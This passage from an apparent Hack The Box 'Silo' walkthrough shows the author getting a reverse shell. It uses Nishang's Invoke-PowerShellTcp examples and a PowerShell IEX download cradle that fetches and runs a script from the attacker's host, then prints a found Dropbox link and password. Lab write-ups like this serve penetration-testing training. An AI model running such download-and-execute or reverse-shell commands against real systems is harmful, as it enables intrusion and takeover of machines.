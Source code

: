 If we look at the Shell it gives us some of the examples.

```bash
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on
the given IP and port.
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
```

I copied one of the example and changed it to my IP and paste it in bottom of the file.
This not only load the module but also the shell give me a callback.

![Untitled](/img/htb-silo/Untitled%203.png)

We need to start `python` server inorder to download it to the box. Started my `netcat` listener too.

![Untitled](/img/htb-optimum/5.png)

Now its time to upload the module to the box

```bash
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/Invoke-PowerShellTcp.ps1')
```

We got the shell

![Untitled](/img/htb-silo/Untitled%204.png)


There is file in User directory and it contains a DropBox link and its password

```bash
PS C:\Users\Phineas\Desktop> download "Oracle issue.txt"
Support vendor engaged to troubleshoot Windows / Oracle performance issue (full memory dump requested):

Dropbox link provided to vendor (and password under separate cover).

Dropbox link 
https://www.dropbox.com/sh/69skryzfszb7elq/AADZnQEbbqDoIf5L2d0PBxENa?dl=0

link password:
?%Hm8646uC$
```

When I tried to open that, it shows me Incorrect Password.

![Untitled](/img/htb-silo/Untitled%205.png)
